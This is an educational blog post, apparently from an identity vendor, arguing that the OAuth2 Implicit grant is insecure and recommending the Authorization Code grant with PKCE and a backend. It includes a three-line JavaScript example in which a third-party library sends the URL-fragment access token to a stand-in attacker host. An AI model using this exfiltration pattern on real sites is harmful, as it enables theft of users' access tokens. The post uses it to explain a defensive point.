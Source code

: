 ```yaml
---
publish_date: 2021-04-29 
title: What's Wrong With the OAuth2 Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
authors: Brian Pontarelli
image: /img/blogs/avoid-implicit-grant/whats-wrong-with-the-oauth2-implicit-grant-header-image.png
categories: Education
tags: oauth, standards, implicit grant
excerpt_separator: "{/* more */}"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/learn/expert-advice/oauth/differences-between-oauth-2-oauth-2-1). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

{/* more */}

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

![Just a rabbit?](/img/blogs/avoid-implicit-grant/Rabbitattack.jpg)

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/v1/tech/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol. This places it in the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone.

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The library we pulled in, however, is an unknown quantity. 

This library may include other libraries as well. Remember, the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with `<script>` tags. Therefore, we have very little chance of ensuring every other line of code from third-party libraries is secure. 

After all, **do you** audit every JavaScript library and every dependency of each library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant! It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use [PKCE](https://tools.ietf.org/html/rfc7636) in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/learn/expert-advice/oauth/modern-guide-to-oauth) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!

